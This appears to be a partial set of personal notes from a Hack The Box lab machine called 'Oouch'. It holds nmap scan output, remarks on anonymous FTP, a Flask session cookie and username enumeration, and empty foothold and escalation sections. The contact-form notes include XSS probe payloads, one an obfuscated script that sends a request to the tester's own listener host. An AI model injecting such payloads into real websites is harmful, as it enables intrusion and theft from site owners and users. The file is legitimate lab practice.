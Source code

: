 * Oouch
** Enumeration
*** meta
# Nmap 7.80 scan initiated Sat May 23 02:34:28 2020 as: nmap -Pn -sC -sV -oA logs/nmap 10.10.10.177
WARNING: Service 10.10.10.177:8000 had already soft-matched rtsp, but now soft-matched sip; ignoring second value
Nmap scan report for 10.10.10.177
Host is up (0.024s latency).
Not shown: 996 closed ports
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat May 23 02:34:47 2020 -- 1 IP address (1 host up) scanned in 18.60 seconds
*** 21/tcp   open  ftp     vsftpd 2.0.8 or later
**** scan 
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 ftp      ftp            49 Feb 11 19:34 project.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.16.100
|      Logged in as ftp
|      TYPE: ASCII
|      Session bandwidth limit in byte/s is 30000
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
**** notes
Anonymous FTP produces just one file, 'project.txt', which shows that there seem to be two websites, which matches what we see on the scan.
*** 22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 8d:6b:a7:2b:7a:21:9f:21:11:37:11:ed:50:4f:c6:1e (RSA)
|_  256 d2:af:55:5c:06:0b:60:db:9c:78:47:b5:ca:f4:f1:04 (ED25519)
*** 5000/tcp open  http    nginx 1.14.2
**** scan
|_http-server-header: nginx/1.14.2
| http-title: Welcome to Oouch
|_Requested resource was http://10.10.10.177:5000/login?next=%2F
**** gobuster
**** notes
Page directs to a login page, we can register an account and login.
Interesting behavior to be explored/attacked:
 * reset password at ~/password_change~
 * send a message at ~/contact~ -- possible XSS?
 * the cookie, which is a normal flask session id cookie -- can we decrypt it?

***** cookie
The cookie is easily decryptable, with ~flask-cookie-decode~, but we won't be able to spoof it unless we know the flask secret key.

Interestingly, it contains a listing of all the flashes sent in the session, along with a user id and csrf token.
***** register
Leaks usernames and emails by reporting when there is a duplicate.

~admin~ / ~admin@oouch.htb~ are not existing credentials
***** contact
Haven't gotten anywhere with this so far, may need more enum to see how to attack it.
~<script>alert('js');</script>~ triggers an error message and a refusal for 1 minute. ;)
~eval(atob(btoa("req = new XMLHttpRequest();req.open('GET', 'http://10.10.16.100:8000/test.html');req.send()")))~ in the onclick of a link doesn't fail but it doesn't trigger a GET either.
*** 8000/tcp open  rtsp
**** scan
| fingerprint-strings: 
|   FourOhFourRequest, GetRequest, HTTPOptions: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/html
|     Vary: Authorization
|     <h1>Bad Request (400)</h1>
|   RTSPRequest: 
|     RTSP/1.0 400 Bad Request
|     Content-Type: text/html
|     Vary: Authorization
|     <h1>Bad Request (400)</h1>
|   SIPOptions: 
|     SIP/2.0 400 Bad Request
|     Content-Type: text/html
|     Vary: Authorization
|_    <h1>Bad Request (400)</h1>
|_http-title: Site doesn't have a title (text/html).
|_rtsp-methods: ERROR: Script execution failed (use -d to debug)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port8000-TCP:V=7.80%I=7%D=5/23%Time=5EC8C3FB%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,64,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/html\r\nVary:\x20Authorization\r\n\r\n<h1>Bad\x20Request\x20\(400\)</
SF:h1>")%r(FourOhFourRequest,64,"HTTP/1\.0\x20400\x20Bad\x20Request\r\nCon
SF:tent-Type:\x20text/html\r\nVary:\x20Authorization\r\n\r\n<h1>Bad\x20Req
SF:uest\x20\(400\)</h1>")%r(HTTPOptions,64,"HTTP/1\.0\x20400\x20Bad\x20Req
SF:uest\r\nContent-Type:\x20text/html\r\nVary:\x20Authorization\r\n\r\n<h1
SF:>Bad\x20Request\x20\(400\)</h1>")%r(RTSPRequest,64,"RTSP/1\.0\x20400\x2
SF:0Bad\x20Request\r\nContent-Type:\x20text/html\r\nVary:\x20Authorization
SF:\r\n\r\n<h1>Bad\x20Request\x20\(400\)</h1>")%r(SIPOptions,63,"SIP/2\.0\
SF:x20400\x20Bad\x20Request\r\nContent-Type:\x20text/html\r\nVary:\x20Auth
SF:orization\r\n\r\n<h1>Bad\x20Request\x20\(400\)</h1>");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
**** notes
responds to http, returns 400

django buit oauth server? 
https://django-oauth-toolkit.readthedocs.io/en/latest/index.html

But no dice on comms with it.
** Foothold
** Escalation
